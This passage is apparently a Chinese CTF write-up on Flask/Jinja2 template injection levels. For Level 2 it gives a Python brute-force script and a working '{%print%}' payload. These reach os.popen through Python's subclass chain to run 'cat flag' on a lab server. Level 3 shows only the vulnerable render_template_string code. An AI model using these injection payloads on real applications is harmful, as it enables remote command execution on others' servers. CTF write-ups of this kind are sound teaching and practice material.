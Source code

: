 `{{`被 ban 了,不过`{% %}`可以使用,使用`{% %}`进行盲打

> {% %} 是属于 flask 的控制语句,且以{% end… %}结尾,可以通过在控制语句定义变量或者写循环,判断.
>
> 详细内容可前往 [Jinja2 模板官方文档](https://jinja.palletsprojects.com/templates/)进行了解

写个盲注脚本

```python
import requests

url = "http://192.168.0.108:5001/level/2"

for i in range(300):
	try:
		data = {"code": '{% if "".__class__.__base__.__subclasses__()[' + str(i) + '].__init__.__globals__["popen"]("cat flag").read() %}payload{% endif %}'}
		response = requests.post(url,data=data)
		if response.status_code == 200:
			if "payload" in response.text:
				print(i,"--->",data)
				break
	except :
		pass

# 结果为 132 ---> {'code': '{% if "".__class__.__base__.__subclasses__()[132].__init__.__globals__["popen"]("cat flag").read() %}payload{% endif %}'}

```

脚本结果说明`132索引`能够执行代码,配合`{%print(code)%}`,拿到 flag

`{%print("".__class__.__base__.__subclasses__()[132].__init__.__globals__["popen"]("cat flag").read() )%}`

![image-20210927112343806](https://particles.oss-cn-beijing.aliyuncs.com/img/image-20210927112343806.png)

#### 拓展

除了能够使用`{%print()%}` 直接输出内容外,还可以使用`popen('cat flag').read(num)` 进行内容爆破.

如`popen('cat flag').read(1)`则表示内容的第一位,`popen('cat flag').read(2)`表示内容的前两位,依次类推.

### Level 3

![image-20210924190126091](https://particles.oss-cn-beijing.aliyuncs.com/img/image-20210924190126091.png)

这题一开始没懂什么意思,看了源码才理解

```python
def level3(code):
    try:
        render_template_string(code)
        return "correct"
    except Exception:
        return "wrong"
```
